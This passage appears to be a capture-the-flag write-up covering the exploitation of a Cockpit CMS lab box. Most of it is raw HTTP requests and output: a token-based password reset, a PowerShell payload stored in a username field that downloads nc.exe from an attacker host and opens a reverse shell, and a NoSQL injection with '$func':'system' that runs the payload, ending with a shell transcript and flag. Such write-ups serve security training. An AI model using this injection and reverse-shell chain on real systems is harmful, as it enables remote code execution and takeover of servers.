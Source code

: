     {"token":"rp-550435cc8b0dc5e3b23db080c64895d160ff4d28109de","password":"test1234"}
    
    HTTP/1.0 200 OK
    [...]
    
    {"success":true,"message":"Password updated"}
    ```
   
5. We signed in using the new credentials, and used the administrator privileges of `steven` in order to modify the username of another user in order to store the command to execute:

    ```burp
    
    POST /cockpit/accounts/save HTTP/1.1
    Host: 10.129.1.2
    [...]
    
    {"account":{"user":"powershell curl http://10.10.14.65:8080/nc.exe -o C:/Windows/Temp/nc.exe; C:/Windows/Temp/nc.exe 10.10.14.65 9999 -e powershell.exe","name":"Ricardo","email":"ricardo@mail.htb","active":true,"group":"admin","i18n":"en","_created":1624447093,"_modified":1624626050,"_id":"60d31875353065cc7f000291","_reset_token":null,"api_key":"account-3a99d598a40bd2d6a4b8f3eb541900"}}
    
    HTTP/1.0 200 OK
    [...]
    
    {"user":"powershell curl http:\/\/10.10.14.65:8080\/nc.exe -o C:\/Windows\/Temp\/nc.exe; C:\/Windows\/Temp\/nc.exe 10.10.14.65 9999 -e powershell.exe","name":"Ricardo","email":"ricardo@mail.htb","active":true,"group":"admin","i18n":"en","_created":1624447093,"_modified":1627345520,"_id":"60d31875353065cc7f000291","_reset_token":null,"api_key":"account-3a99d598a40bd2d6a4b8f3eb541900"}
    ```

6. We triggered the execution of the stored commands by using the `$func` filter set to `system` and by exploiting the NoSQLi on the endpoint `/cockpit/auth/check`:

    ```burp
    
    POST /cockpit/auth/check HTTP/1.1
    Host: 10.129.1.2
    [...]
    
    {"auth":{"user":{
    "$func": "system"
    },"password":"b"},"csfr":"e[...]c"}
    
    ```
   
7. We obtained a remote shell on the box as the user `parkor\web` and we retrieved the user flag:

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.1.2] 49676
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\web\Desktop\xampp\htdocs\cockpit> whoami
whoami

parkor\web

PS C:\Users\web\Desktop\xampp\htdocs\cockpit> type C:\Users\web\Desktop\user.txt
HTB{D0NT_G3T_C00KY_W17H_JUMP1NG_0VER_C0CKPIT}
```
